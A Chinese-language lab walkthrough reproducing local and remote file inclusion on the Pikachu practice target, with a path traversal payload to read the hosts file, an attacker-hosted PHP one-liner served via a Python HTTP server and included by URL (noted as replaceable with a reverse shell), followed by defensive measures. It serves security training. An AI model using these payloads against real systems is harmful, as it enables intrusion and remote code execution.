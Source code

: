 #  靶机复现-pikachu靶场文件包含漏洞   
 泷羽SEC-ohh   2025-01-21 07:28  
  
>   
> 本篇文章旨在为网络安全渗透测试靶机复现学习。通过阅读本文，读者将能够对渗透pikachu靶场文件包含漏洞复现有一定的了解  
  
##### 原文学习链接  
  
CSDN博主：  
One_Blanks  
##### 靶机资源下载  
  
phpstudy  
pikachu  
## 一、前言   
  
文件包含漏洞是编程中的一种安全隐患，常见于PHP等语言。它源于程序运行时依据用户输入或外部数据动态包含文件的机制，当对输入路径缺乏足够验证和过滤时，攻击者可构造恶意路径。这一漏洞危害巨大，既能实现代码执行，让攻击者在目标服务器植入恶意程序、控制服务器，又能导致敏感信息泄露，像数据库和用户认证信息等外流。防范方面，要对包含文件的输入严格验证过滤，采用白名单等方式确保文件来源合法；在服务器端（如PHP里）关闭远程文件包含功能；同时遵循最小权限原则，限制运行Web应用的用户的权限，从而降低被攻击后的损害程度。  
## 二、本地文件包含   
### 1、 burp抓包  
  
![](https://mmbiz.qpic.cn/mmbiz_png/wul7icMxhHHDRKiaEPmHY5vNC8tMDQ8t65icjyYfhT78mexxrSEIxibcHRTsdhTeAibpxgt1fohLMD5fUniaicSxPnXqw/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/wul7icMxhHHDRKiaEPmHY5vNC8tMDQ8t65cASKfVexeuez5pmgSGptVjicLjwovNI9MTH8g3RiasDEMPrpIBQRUe1A/640?wx_fmt=png&from=appmsg "")  
### 2、burp修改参数：替换文件路径  
```
..\..\..\..\..\..\windows\system32\drivers\etc\hosts

```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/wul7icMxhHHDRKiaEPmHY5vNC8tMDQ8t65XHWoa8nicFHicrkGEectYb7KM7CYqqROdicQmvnjcQpOtYryCtzftCShQ/640?wx_fmt=png&from=appmsg "")  
## 三、远程文件包含   
### 1、攻击机开启http微服务，创建一句话木马  
```
<?php phpinfo();?>   #读取phpinfo 也可以写其他反向shell
python -m http.server 8008   #当前目录开启http服务 端口8008

```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/wul7icMxhHHDRKiaEPmHY5vNC8tMDQ8t65Grjic31GkBg9bumf91aPhbpiaoYBVFhvAmJtf3FicKAbK7FUQB0RHIG4A/640?wx_fmt=png&from=appmsg "")  
### 2、burp修改数据包，将文件改为kali的一句话php  
```
http://192.168.60.128:8008/webshell.php

```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/wul7icMxhHHDRKiaEPmHY5vNC8tMDQ8t65mV0W7Da4htBhy0AhvwviaK3GHsqvzK0Jnsl7zCwA4xCbhTkZHiaKa9SQ/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/wul7icMxhHHDRKiaEPmHY5vNC8tMDQ8t65fk0WDKIS7zIr00TITjBhjjbfoUJelysPD56judgIQGUVNEzq9PgykA/640?wx_fmt=png&from=appmsg "")  
## 四、防范措施   
### 1、输入验证与过滤  
  
严格限制输入来源：对于任何可能用于文件包含的用户输入或外部数据，要明确其来源范围。例如，在Web应用中，如果是通过表单提交的文件名，只允许特定的字符集，如字母、数字和下划线，并且限制长度。  
### 2、白名单验证  
  
白名单验证：建立一个合法文件的“白名单”。当需要包含文件时，检查要包含的文件名是否在白名单内。比如，在一个特定的模块中，只允许包含预先定义好的几个配置文件或函数库文件。  
### 3、关闭远程文件包含  
  
在PHP中，将allow_url_include设置为Off（可在php.ini文件中进行设置）。这样可以防止攻击者通过URL来包含远程恶意脚本。  
### 4、限制包含路径  
  
设定安全的包含路径范围。例如，在应用程序中，只允许包含特定目录及其子目录下的文件，避免用户能够访问到系统关键目录或其他不相关的敏感区域。  
  
  
